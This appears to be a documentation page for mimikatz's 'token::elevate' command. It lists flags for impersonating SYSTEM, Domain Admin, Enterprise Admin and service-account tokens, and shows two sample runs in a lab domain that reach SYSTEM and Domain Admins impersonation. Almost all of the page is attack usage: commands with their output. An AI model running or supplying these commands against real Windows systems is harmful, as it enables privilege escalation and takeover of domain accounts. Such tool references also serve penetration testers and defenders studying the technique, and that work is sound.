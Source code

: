 # elevate

`token::elevate` can be used to impersonate a token. By default it will elevate permissions to `NT AUTHORITY\SYSTEM`. It has the following command line arguments:

* `/process`: Impersonate the token of the running process
* `/user`: Impersonate the token of the specified user
* `/admin`: Impersonate a token of builtin local administrators
* `/domainadmin`: Impersonate a token with Domain Admin privileges
* `/enterpriseadmin`: Impersonate a token with Enterprise Admin privileges
* `/localservice`: `NT AUTHORITY\LOCAL SERVICE` token impersonation
* `/networkservice`: `NT AUTHORITY\NETWORK SERVICE` token impersonation

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```
mimikatz # token::elevate /domainadmin
Token Id  : 0
User name :
SID name  : hacklab\Domain Admins

4512    {0;0007212c} 2 D 476947         hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500   (29g,26p)       Primary
 -> Impersonated !
 * Process Token : {0;080fd6c8} 3 F 137701065   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;0007212c} 2 D 137785083   hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500
(29g,26p)       Impersonation (Delegation)
```
